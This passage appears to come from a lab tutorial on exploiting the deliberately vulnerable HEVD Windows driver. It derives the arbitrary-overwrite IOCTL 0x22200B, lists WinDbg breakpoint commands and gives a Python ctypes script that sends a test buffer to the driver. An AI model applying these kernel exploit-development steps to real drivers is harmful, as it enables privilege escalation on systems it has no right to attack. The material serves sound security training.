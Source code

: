 This lower box here, is directly connected to our desired function. So in this lower box, if we hit that `jz` opcode, we will end up in our function. You can see that there are two `sub eax, 4` operations that lead to this `jz`. The box immediately out of frame and directly connected to the upper box is actually our `jz` to the stack overflow function. That IOCTL was `0x222003`. So we can summarize the flow as thus:
+ if we subtract `0x222003` from our IOCTL and we don't get `0x0`, 
+ subtract another `0x4`. If we don't get `0x0`,
+ subtract another `0x4`. If we get `0x0`, jump to the Arbitrary Write function.

So we can deduce that `0x222003` + `0x4` + `0x4` is our desired IOCTL. This gives us `0x22200B`. Like we did last post, let's set a breakpoint on our function, send our IOCTL and see if we hit our breakpoint.

Going to pause the debuggee, and rerun our standby commands we always run on our debugger:
+ `sympath\+ <path to the HEVD.pdb file>` <— adds the symbols for HEVD to our symbols path
+ `.reload` <— reloads symbols from path
+ `ed Kd_DEFAULT_Mask 8` <— enables debug string printing
+ `bp HEVD!ArbitraryOverwriteIoctlHandler` <— sets a breakpoint on our desired function

We'll use this script to send a buffer of 1000 `A` characters. 
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32

def send_buf():
    hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
    if (not hevd) or (hevd == -1):
        print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
        sys.exit(1)
    else:
        print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

    buf = "A" * 1000
    buf_length = len(buf)
    
    result = kernel32.DeviceIoControl(
        hevd,
        0x22200b,
        buf,
        buf_length,
        None,
        0,
        byref(c_ulong()),
        None
    )

    if result != 0:
        print("[*] Buffer sent to driver successfully.")
    else:
        print("[!] Payload failed. Last error: " + str(GetLastError()))

send_buf()
```
